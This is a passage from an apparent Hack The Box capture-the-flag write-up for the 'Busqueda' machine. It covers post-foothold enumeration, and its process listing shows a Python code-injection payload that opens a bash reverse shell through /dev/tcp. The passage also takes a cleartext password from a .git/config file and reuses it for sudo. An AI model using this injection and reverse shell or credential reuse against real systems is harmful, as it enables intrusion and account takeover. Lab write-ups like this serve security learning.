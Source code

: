 ```bash
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
```

Interesting. Lets keep searching. Cheking hosts file we'll find a `gitea` subdomain, add it to our hosts file in attacker machine and there is a gitea running on the subdomain, searching through that we'll find two users and nothing more. `cody` which looks like it's the user we have access and `administrator`.

Next I checked the services running
```bash
bash-5.1$ ps -aux
svc         1719  0.0  0.9 261144 19816 ?        Ssl  13:05   0:03 python3 /var/www/app/app.py
svc        36488  0.0  0.8  23872 16144 ?        S    15:10   0:00 /usr/bin/python3 /usr/local/bin/searchor search Accuweather '+str(__import__('os').system('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"'))+'
svc        36489  0.0  0.0   2888  1000 ?        S    15:10   0:00 sh -c bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"
svc        36617  0.0  0.1  10332  3840 ?        R    15:44   0:00 ps -aux
```
lets check the python app that we got our initial access exploiting it.
```bash
bash-5.1$ ls -lah 
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3 14:32 .
drwxr-xr-x 4 root     root     4.0K Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1.1K Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4.0K Jun 18 13:05 .git
drwxr-xr-x 2 www-data www-data 4.0K Dec  1  2022 templates
```

checking inside `.git` folder and we'll find credential for the user `cody` in config file.
```bash
bash-5.1$ cat .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

Using this password we can log into gitea but it's just source of the searcher site and nothing more. But as the cody .gitconfig was in the user home directory I thought it might be the users password too and I was right.

So first thing to do for priv-esc that wasn't possible before is
```bash
bash-5.1$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
bash-5.1$ sudo -l 
sudo -l
[sudo] password for svc: jh1usoih2bkjaspwe92

Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
```